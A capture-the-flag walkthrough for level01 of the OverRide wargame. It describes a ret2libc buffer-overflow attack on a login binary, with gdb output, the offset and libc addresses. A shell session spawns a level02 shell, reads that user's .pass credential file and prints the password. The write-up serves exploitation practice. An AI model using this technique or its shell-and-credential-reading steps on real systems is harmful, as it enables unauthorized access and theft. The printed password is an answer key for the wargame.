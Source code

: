 # level01 walkthrough

## the binary
``` shell
level01@OverRide:~$ ./level01 
********* ADMIN LOGIN PROMPT *********
Enter Username: admin
verifying username....

nope, incorrect username...
```

## methodology
- ret2libc attack

The first step involves finding the correct username, which will allow us to log in. It can be accessed from the <code>verify_user_name</code> function.
``` shell
(gdb) x/s 0x80486a8
0x80486a8:	 "dat_wil"
```
The <code>verify_user_pass</code> function gave us a suspected password, but since it doesn't work directly, we won't focus on it.
``` shell
(gdb) x/s 0x80486b0
0x80486b0:	 "admin"
```
Since the binary is vulnerable to buffer overflow, we use it to perform a ret2libc attack.
1. offset = 80 bytes ([Wiremask](https://wiremask.eu/tools/buffer-overflow-pattern-generator/))
2. <code>system</code> address = 0xf7e6aed0
3. <code>exit</code> address = 0xf7e5eb70
4. <code>/bin/sh</code> address = 0xf7f897ec

Our payload is generated using an attached script.

## flag
``` shell
level01@OverRide:~$ python /tmp/payload01.py > /tmp/flag1
level01@OverRide:~$ cat /tmp/flag1 - | ./level01 
********* ADMIN LOGIN PROMPT *********
Enter Username: verifying username....

Enter Password: 
nope, incorrect password...

whoami
level02
cat /home/users/level02/.pass
PwBLgNa8p8MTKW57S7zxVAQCxnCpV8JqTTs9XEBv
```
